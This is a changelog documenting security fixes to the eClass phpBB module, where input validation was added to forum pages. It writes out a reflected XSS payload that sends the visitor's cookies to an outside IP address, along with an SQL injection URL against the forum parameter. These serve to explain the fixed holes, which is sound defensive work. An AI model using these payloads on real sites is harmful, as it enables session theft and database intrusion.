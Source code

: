 # Changelog for eClass

### Changes in /module/phbb/
#### viewforum.php && viewtopic.php
  * Added checking if $_GET['forum'] is a number and complies with the UTF-8 standard lines 75 - 81. This should prevent this page from sql injections as well as non persistent XSS attacks
  * possible XSS attack
  ``` javascript  
  http://geza.csec.gr/modules/phpbb/viewforum.php?forum=
  <script>window.onload=function() {
  console.log('hey');
  var logo = document.getElementById("logo");
  var link = "http://195.134.67.223:8095?";
  var cookie = document.cookie.split(";");
  link = link.concat(cookie);
  logo.href=link;
  }</script>
  ```  

#### newtopic.php
  * We can have injections here from $_GET['forum'] attribute. More specifically if we send non numeric values through the $_GET we have an sql error reporting rendered. This is wrong.
  We added lines 83-91 in order to be sure that the input incoming from the $_GET['forum'] is correct and we suppressed the sql error output  
   ** hint ** sql possible injection here http://geza.csec.gr/modules/phpbb/newtopic.php?forum=1%27%20%20or%20%27a%27

  * The above xss attack can be used here
